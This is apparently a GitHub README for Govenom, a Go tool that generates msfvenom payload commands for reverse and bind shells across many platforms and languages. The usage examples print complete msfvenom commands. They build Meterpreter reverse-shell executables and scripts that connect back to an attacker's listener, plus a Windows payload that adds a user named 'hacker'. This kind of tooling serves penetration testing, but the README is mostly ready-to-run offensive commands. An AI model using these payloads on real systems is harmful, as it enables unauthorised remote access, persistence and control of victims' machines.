 # Govenom
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) 

Generate MSFVenom shells in command line :)

## To-do List
- [x] v0.1 Generate MSFVenom shells in command line.
   - [ ] v0.1.1 Use Cobra lib instead of Cli lib.
- [ ] v0.2 Support Bind Shell and Reverse Shell.
- [ ] v0.3 Supported Command execution and generate a Litener.
- [ ] v0.4 Provide WebUI or GUI.

## Usage
This panel appears when typing `./Govenom -h` :
```
USAGE:
   Govenom [global options] command [command options] [arguments...]

COMMANDS:
   linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
   windows  Generate Windows Meterpreter muti shells :)
   macos    Generate MacOS Meterpreter reverse/bind shells :)
   bash     Generate a Bash reverse shell
   python   Generate a Python reverse shell
   perl     Generate a Perl reverse shell
   asp      Generate a ASP Meterpreter shell
   jsp      Generate a Jsp reverse shell
   war      Generate a War reverse shell
   php      Generate a PHP reverse shells
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-lhost` and `-port`.
```
# ./Govenom bash -lhost 1.2.3.4 -port 4444                                                                                                                                                          
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

msfvenom -p cmd/unix/reverse_bash LHOST=1.2.3.4 LPORT=4444 -f raw > shell.sh 
```
```
# ./Govenom  windows
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

 #1   Windows Meterpreter reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #2   Windows Meterpreter http reverse shell: msfvenom -p windows/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4444 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 
 #3   Windows Meterpreter bind shell: msfvenom -p windows/meterpreter/bind_tcp RHOST= 192.168.1.1 LPORT=4444 -f exe > shell.exe 
 #4   Windows CMD Multi Stage: msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #5   Windows add user: msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Thanks
* [goshell](https://github.com/eze-kiel/goshell) - Generate reverse shells in command line with Go ! 
